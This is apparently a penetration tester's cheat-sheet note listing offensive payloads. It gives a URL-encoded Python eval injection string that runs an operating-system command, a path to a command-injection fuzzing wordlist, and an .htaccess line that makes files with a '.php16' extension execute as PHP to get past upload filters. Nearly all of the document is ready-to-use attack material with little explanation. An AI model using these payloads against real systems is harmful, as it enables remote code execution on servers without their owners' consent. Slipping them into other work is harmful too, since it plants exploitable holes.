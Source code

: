 Python RCE using eval():
---
#rce #python #eval

Python "eval" payload:
```python
'%2beval(compile('for x in range(1):\n import os\n os.system("$CMD")','anything','single'))%2b'
```

Seclists RCE Payloads
```lists
/usr/share/seclists/Fuzzing/command-injection-commix.txt
```

Bypassing PHP File upload execution:
---
.htaccess :
```
AddType application/x-httpd-php .php16
```
